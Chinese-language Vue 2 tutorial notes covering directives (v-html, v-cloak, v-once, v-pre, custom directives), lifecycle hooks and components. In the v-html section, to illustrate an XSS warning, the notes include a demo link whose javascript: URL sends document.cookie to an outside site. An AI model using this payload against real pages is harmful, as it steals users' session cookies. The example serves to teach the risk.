v-html 有安全性问题！！！！  
 (1).在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。  
 (2).一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上！
:::

```html
<div id="root">
  <div>你好，{{name}}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。
  new Vue({
    el: "#root",
    data: {
      name: "11",
      str: "<h3>你好啊！</h3>",
      str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟有好东西！</a>',
    },
  });
</script>
```

### vue v-cloak 指令

v-cloak 指令（没有值）：

    1.本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
    2.使用 css 配合 v-cloak 可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>

	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		new Vue({
			el:'#root',
			data:{
				name:'XXX'
			}
		})
	</script>
```

### vue v-once 指令

1.**v-once 所在节点在初次动态渲染后，就视为静态内容了。**  
2.**以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。**

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。
  new Vue({
    el: "#root",
    data: {
      n: 1,
    },
  });
</script>
```

### vue v-pre 指令

1.**跳过其所在节点的编译过程(不去解析标签上的属性指令，原模原样输出内容)**  
2.**可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。**

```html
<div id="root">
  <h2 v-pre>Vue测试</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

### vue 自定义属性指令

1.定义语法：

```text
(1).局部指令：
函数式
new Vue({ directives{指令名:回调函数} })
对象式
new Vue({ directives:{指令名:配置对象} })
(2).全局指令：
Vue.directive(指令名,配置对象) 或 Vue.directive(指令名,回调函数)
```

2.配置对象中常用的 3 个回调：

    (1).bind：指令与元素成功绑定时调用。
    (2).inserted：指令所在元素被插入页面时调用。
    (3).update：指令所在模板结构被重新解析时调用。

3.备注：

    (1).指令定义时不加 v-，但使用时要加 v-；
    (2).指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCase 命名。

```html
<div id="root">
  <h2>{{name}}</h2>
  <h2>当前的n值是：<span v-text="n"></span></h2>
  <!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
  <h2>放大10倍后的n值是：<span v-big="n"></span></h2>
  <button @click="n++">点我n+1</button>
  <hr />
  <input type="text" v-fbind:value="n" />
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  //定义全局指令
  /* Vue.directive('fbind',{
			//指令与元素成功绑定时（一上来）
			bind(element,binding){
				element.value = binding.value
			},
			//指令所在元素被插入页面时
			inserted(element,binding){
				element.focus()
			},
			//指令所在的模板被重新解析时
			update(element,binding){
				element.value = binding.value
			}
		}) */
  new Vue({
    el: "#root",
    data: {
      name: "1",
      n: 1,
    },
    directives: {
      //big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
      /* 'big-number'(element,binding){
					// console.log('big')
					element.innerText = binding.value * 10
				}, */
      big(element, binding) {
        console.log("big", this); //注意此处的this是window
        // console.log('big')
        element.innerText = binding.value * 10;
      },
      fbind: {
        //指令与元素成功绑定时（一上来）
        bind(element, binding) {
          element.value = binding.value;
        },
        //指令所在元素被插入页面时
        inserted(element, binding) {
          element.focus();
        },
        //指令所在的模板被重新解析时
        update(element, binding) {
          element.value = binding.value;
        },
      },
    },
  });
</script>
```

## vue 生命周期

1.又名：生命周期回调函数、生命周期函数、生命周期钩子。  
2.是什么：Vue 在关键时刻帮我们调用的一些特殊名称的函数。  
3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。  
4.生命周期函数中的 this 指向是 vm 或 组件实例对象。


常用的生命周期钩子：

    1.mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
    2.beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁 Vue 实例

    1.销毁后借助Vue开发者工具看不到任何信息。
    2.销毁后自定义事件会失效，但原生DOM事件依然有效。
    3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。

```html
<div id="root">
  <h2 :style="{opacity}">欢迎学习Vue</h2>
  <button @click="opacity = 1">透明度设置为1</button>
  <button @click="stop">点我停止变换</button>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

  new Vue({
    el: "#root",
    data: {
      opacity: 1,
    },
    methods: {
      stop() {
        this.$destroy();
      },
    },
    //Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
    mounted() {
      console.log("mounted", this);
      this.timer = setInterval(() => {
        console.log("setInterval");
        this.opacity -= 0.01;
        if (this.opacity <= 0) this.opacity = 1;
      }, 16);
    },
    beforeDestroy() {
      //在实例销毁前执行一些收尾操作
      clearInterval(this.timer);
      console.log("vm即将驾鹤西游了");
    },
  });
</script>
```

## vue 组件

使用组件的三个步骤

    1.定义组件(创建组件)
    2.注册组件
    3.使用组件(写组件标签)

1.**如何定义一个组件？**

    使用 Vue.extend(options)创建，其中 options 和 new Vue(options)时传入的那个 options 几乎一样，但也有点区别；
    区别如下：
    (1).el 不要写，为什么？ ——— 最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定服务哪个容器。
    (2).data 必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。
    备注：使用 template 可以配置组件结构。

2.**如何注册组件？**

    (1).局部注册：靠 new Vue 的时候传入 components 选项
    (2).全局注册：靠 Vue.component('组件名',组件)

3.**编写组件标签：**

    <school></school>

```html
<div id="root">
  <hello></hello>
  <hr />
  <h1>{{msg}}</h1>
  <hr />
  <!-- 第三步：编写组件标签 -->
  <school></school>
  <hr />
  <!-- 第三步：编写组件标签 -->
  <student></student>
</div>

<div id="root2">
  <hello></hello>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;

  //第一步：创建school组件
  const school = Vue.extend({
    template: `
				<div class="demo">
					<h2>学校名称：{{schoolName}}</h2>
					<h2>学校地址：{{address}}</h2>
					<button @click="showName">点我提示学校名</button>
				</div>
			`,
    // el:'#root',
    //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
    data() {
      return {
        schoolName: "XXX",
        address: "北京朝阳",
      };
    },
    methods: {
      showName() {
        alert(this.schoolName);
      },
    },
  });
  //第一步：创建student组件
  const student = Vue.extend({
    template: `
				<div>
					<h2>学生姓名：{{studentName}}</h2>
					<h2>学生年龄：{{age}}</h2>
				</div>
			`,
    data() {
      return {
        studentName: "张三",
        age: 18,
      };
    },
  });
  //第一步：创建hello组件
  const hello = Vue.extend({
    template: `
				<div>
					<h2>你好啊！{{name}}</h2>
				</div>
			`,
    data() {
      return {
        name: "Tom",
      };
    },
  });

  //第二步：全局注册组件
  Vue.component("hello", hello);
  //创建vm
  new Vue({
    el: "#root",
    data: {
      msg: "你好啊！",
    },
    //第二步：注册组件（局部注册）
    components: {
      school,
      student,
    },
  });
  new Vue({
    el: "#root2",
  });
</script>
```

### 关于组件的几个注意事项

```text
	1.关于组件名:
	  一个单词组成：
			第一种写法(首字母小写)：school
			第二种写法(首字母大写)：School
		多个单词组成：
			第一种写法(kebab-case命名)：my-school
			第二种写法(CamelCase命名)：MySchool (需要Vue脚手架支持)
		备注：
		  (1).组件名尽可能回避HTML中已有的元素名称，例如：h2、H2都不行。
			(2).可以使用name配置项指定组件在开发者工具中呈现的名字。

	2.关于组件标签:
			第一种写法：<school></school>
		  第二种写法：<school/>
			备注：不用使用脚手架时，<school/>会导致后续组件不能渲染。

	3.一个简写方式：
			const school = Vue.extend(options) 可简写为：const school = options
```

### vue component 组件

关于 VueComponent：  
1.school 组件本质是一个名为 VueComponent 的构造函数，且不是程序员定义的，是 Vue.extend 生成的。

2.我们只需要写`<school/>`或`<school></school>`，Vue 解析时会帮我们创建 school 组件的实例对象，即 Vue 帮我们执行的：`new VueComponent(options)`。

3.特别注意：每次调用 `Vue.extend`，返回的都是一个全新的 VueComponent！！！！

4.关于 this 指向：

    (1).组件配置中：
    	  data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。
    (2).new Vue(options)配置中：
    	  data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。

5.VueComponent 的实例对象，简称 vc（也可称之为：组件实例对象）。Vue 的实例对象，简称 vm。

```html
<div id="root">
  <school></school>
  <hello></hello>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  //定义school组件
  const school = Vue.extend({
    name: "school",
    template: `
				<div>
					<h2>学校名称：{{name}}</h2>
					<h2>学校地址：{{address}}</h2>
					<button @click="showName">点我提示学校名</button>
				</div>
			`,
    data() {
      return {
        name: "XX",
        address: "北京",
      };
    },
    methods: {
      showName() {
        console.log("showName", this);
      },
    },
  });

  const test = Vue.extend({
    template: `<span>XXX</span>`,
  });
  //定义hello组件
  const hello = Vue.extend({
    template: `
				<div>
					<h2>{{msg}}</h2>
					<test></test>
				</div>
			`,
    data() {
      return {
        msg: "你好啊！",
      };
    },
    components: { test },
  });
  // console.log('@',school)
  // console.log('#',hello)
  //创建vm
  const vm = new Vue({
    el: "#root",
    components: { school, hello },
  });
</script>
```

### 重要的内置关系

1.一个重要的内置关系：`VueComponent.prototype.proto === Vue.prototype`  
2.为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue 原型上的属性、方法。

```html
<div id="root">
  <school></school>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。
  Vue.prototype.x = 99;

  //定义school组件
  const school = Vue.extend({
    name: "school",
    template: `
				<div>
					<h2>学校名称：{{name}}</h2>
					<h2>学校地址：{{address}}</h2>
					<button @click="showX">点我输出x</button>
				</div>
			`,
    data() {
      return {
        name: "XXX",
        address: "北京",
      };
    },
    methods: {
      showX() {
        console.log(this.x);
      },
    },
  });

  //创建一个vm
  const vm = new Vue({
    el: "#root",
    data: {
      msg: "你好",
    },
    components: { school },
  });

  //定义一个构造函数
  /* function Demo(){
			this.a = 1
			this.b = 2
		}
		//创建一个Demo的实例对象
		const d = new Demo()
		console.log(Demo.prototype) //显示原型属性
		console.log(d.__proto__) //隐式原型属性
		console.log(Demo.prototype === d.__proto__)
		//程序员通过显示原型属性操作原型对象，追加一个x属性，值为99
		Demo.prototype.x = 99
		console.log('@',d) */
</script>
```

## vue 脚手架分析

关于不同版本的 Vue：

    	1.vue.js与vue.runtime.xxx.js的区别：
    	  (1).vue.js是完整版的Vue，包含：核心功能+模板解析器。
    		(2).vue.runtime.xxx.js是运行版的Vue，只包含：核心功能；没有模板解析器。

    	2.因为vue.runtime.xxx.js没有模板解析器，所以不能使用template配置项，需要使用
    		render函数接收到的createElement函数去指定具体内容。

```js
//创建Vue实例对象---vm
new Vue({
  el: "#app",
  //render函数完成了这个功能：将App组件放入容器中
  render: (h) => h(App),
  // render:q=> q('h1','你好啊')

  // template:`<h1>你好啊</h1>`,
  // components:{App},
});
```

## vue.config.js 配置文件

1. 使用 vue inspect > output.js 可以查看到 Vue 脚手架的默认配置。
2. 使用 vue.config.js 可以对脚手架进行个性化定制，详情见：[Vue-cli 文档](https://cli.vuejs.org/zh)
